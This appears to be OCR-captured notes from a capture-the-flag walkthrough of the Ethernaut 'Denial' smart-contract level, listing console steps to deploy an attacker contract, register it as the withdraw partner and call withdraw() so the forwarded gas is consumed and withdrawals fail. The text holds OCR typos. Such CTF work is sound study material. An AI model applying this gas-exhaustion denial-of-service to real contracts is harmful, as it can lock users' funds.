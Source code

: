 1. deploy DenialAttack.sol 
2. > contract
n {methods: {…}, abi: Array(6), address: '0x084d1e5F01b1bf2ad05080D1f5843237BfeD49Cc', transactionHash: undefined, constructor: ƒ, …} 

3.paste DenialAttack address //DenialAttack be WithdrawPartner, always assert error if you try to withdraw fund
ontract.setWithdrawPartner("0x97EB3A7dcd84b417317045af7e6351c4750AD6e5")

4. contract.withdraw() //partner.call{value:amountToSend}(""); gonna foeward all of the remaining gas for this trnasaction to execute this function 